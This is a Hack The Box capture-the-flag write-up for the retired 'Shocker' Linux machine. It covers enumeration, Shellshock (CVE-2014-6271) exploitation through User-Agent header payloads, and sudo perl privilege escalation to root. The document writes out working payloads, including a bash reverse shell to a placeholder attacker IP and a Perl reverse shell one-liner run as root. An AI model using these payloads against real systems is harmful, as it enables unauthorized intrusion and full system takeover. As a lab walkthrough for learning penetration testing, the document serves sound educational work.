


# Hack The Box — Shocker (Linux, Easy) — Writeup

## Table of Contents
1. General Info
2. Objectives
3. Enumeration
4. Exploitation (Shellshock)
5. Initial shell (user)
6. Privilege escalation
7. Post-exploitation proof
8. Cleanup
9. Key takeaways
10. Artifacts / Screenshots (proofs)

---

## 1. General Info
Machine: Shocker  
Platform: Hack The Box (retired)  
OS: Linux (Ubuntu)  
Difficulty: Easy  
Attack chain: Shellshock (CGI) → Reverse shell (user `shelly`) → `sudo` abuse (`/usr/bin/perl`) → root  
Flags: user.txt and root.txt (both retrieved and documented)

---

## 2. Objectives
- Enumerate exposed services and web resources.  
- Identify and exploit a remote code execution (RCE) vector (Shellshock) in a CGI script.  
- Obtain an interactive shell as a low-privilege user.  
- Escalate privileges to root using NOPASSWD `sudo` for `/usr/bin/perl`.  
- Document commands and provide screenshots as evidence.

---

## 3. Enumeration

Nmap command used (replace placeholders when reproducing):
$ sudo nmap -sC -sV -Pn -oN nmap/full <TARGET_IP>

Key finding: 80/tcp — Apache httpd 2.4.18 (Ubuntu) — CGI presence likely; older versions indicate Shellshock testing priority.

Screenshot (Nmap output):

Directory brute force on CGI:
$ gobuster dir -u http://<TARGET_IP>/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh,pl,cgi,txt

Found: /user.sh reachable at /cgi-bin/user.sh (HTTP 200).  
Screenshot (gobuster):

Confirm script execution:
$ curl -i http://<TARGET_IP>/cgi-bin/user.sh

Output shows uptime — confirms server executes the script (CGI).  
Screenshot (curl output):

---

## 4. Exploitation (Shellshock)

Rationale: Bash-based CGI on outdated server → Shellshock (CVE-2014-6271) likely exploitable. Typical injection via HTTP header (User-Agent, Referer, Cookie).

Verification with Burp Repeater (example payloads):

Payload to check whoami (User-Agent header):
() { :; }; echo; /bin/bash -c 'whoami'
Response: "shelly" — command executed by CGI process.
Screenshot:

Payload to check id (User-Agent header):
() { :; }; echo; /bin/bash -c 'id'
Response shows uid=1000(shelly) and group membership (adm, lxd, etc.).
Screenshot:

Payload to check working directory:
() { :; }; echo; /bin/bash -c 'pwd'
Response: /usr/lib/cgi-bin
Screenshot:

Payload to list files:
() { :; }; echo; /bin/bash -c 'ls'
Response lists user.sh
Screenshot:

Payload to get system info:
() { :; }; echo; /bin/bash -c 'uname -a'
Response shows kernel and hostname (Shocker).
Screenshot:

Reverse shell payload (User-Agent) used to get an interactive shell back to the attacker machine (replace <ATTACKER_IP>):
() { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'

Burp payload screenshot:

Start listener on attacker:
$ nc -lvnp 4444

Listener accepted connection — low-privileged shell as shelly.
Screenshot (nc user shell):

---

## 5. Initial shell (user)

Stabilize the shell to a PTY for interactivity:
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Then: Ctrl+Z ; stty raw -echo ; fg ; export TERM=xterm

Essential checks (user context):
$ whoami        # -> shelly
$ id            # -> uid=1000(shelly) gid=1000(shelly) groups=...
$ pwd           # -> /usr/lib/cgi-bin

Screenshot (user checks):

---

## 6. Privilege escalation

Check sudo rights:
$ sudo -l

Output:
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

This indicates a direct escalation vector: perl can be run as root without password.
Screenshot:

Two reliable escalation options:

Option A — direct root shell:
$ sudo perl -e 'exec "/bin/bash";'

Option B — reverse shell as root (recommended for clean separate listener):
1) On attacker:
$ nc -lvnp 4445
2) On target (shelly):
$ sudo perl -e 'use Socket;$i="<ATTACKER_IP>";$p=4445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

Listener shows root shell connection.
Screenshot:

---

## 7. Post-exploitation proof

Validate root context:
$ whoami       # -> root
$ id           # -> uid=0(root) gid=0(root)
$ hostname     # -> Shocker
$ pwd          # working directory

Screenshot (root verification):

Capture root flag:
$ cat /root/root.txt
Root flag captured (masked in public evidence). Screenshot (masked):

Capture user flag:
$ cat /home/shelly/user.txt
User flag captured (masked for public report): 9f4e2a...b7c3
---

## 8. Cleanup
- Closed interactive shells (exit).  
- Stopped local listeners.  
- No persistent changes made to target beyond transient command execution.  
- Sensitive artifacts (full flag values) are stored privately and masked in public content.

---

## 9. Key takeaways
- Legacy CGI endpoints with outdated Bash are high risk for Shellshock RCE.  
- NOPASSWD sudo entries for common interpreters (perl, python) are immediate privilege escalation vectors.  
- Use automated detection (Nmap NSE) and manual verification (Burp Repeater) combined for safe exploitation.  
- Redact or mask full flags in public artifacts; preserve complete proofs offline.

---

## 10. Artifacts / Screenshots (ordered)
All artifacts are stored under assets/screenshots/ in the repository. File references below correspond to the uploaded images:

01_nmap_results.png — Nmap output showing services and versions  
02_gobuster_cgi.png — gobuster finding /cgi-bin/user.sh  
03_curl_user_sh.png — curl output showing uptime (user.sh)  
04_burp_repeater_whoami_req_resp.png — Burp whoami request/response  
05_burp_repeater_id_req_resp.png — Burp id request/response  
06_burp_repeater_pwd_req_resp.png — Burp pwd request/response  
07_burp_repeater_ls_req_resp.png — Burp ls request/response  
08_burp_repeater_uname_req_resp.png — Burp uname -a request/response  
09_burp_repeater_revsh_req.png — Burp repeater with reverse shell payload (User-Agent)  
10_nc_user_shell_4444_conn.png — nc listener: user shell connected (shelly)  
11_user_shell_whoami_id_pwd.png — user shell context (whoami, id, pwd)  
12_sudo_l_shelly.png — sudo -l output showing NOPASSWD: /usr/bin/perl  
13_nc_root_shell_4445_conn.png — nc listener: root shell connected  
14_root_whoami_id.png — root shell context verification (whoami/id/hostname/pwd)  
15_root_flag.png — root flag screenshot (masked for public)

---

## Reproduction notes and caution
- Replace <TARGET_IP> and <ATTACKER_IP> placeholders with actual addresses when reproducing steps.  
- Do not run these commands against systems you do not own or have explicit written authorization to test.  
- Screenshots in this report are the evidence captured during the assessment; flags are masked in public copies.

End of writeup.
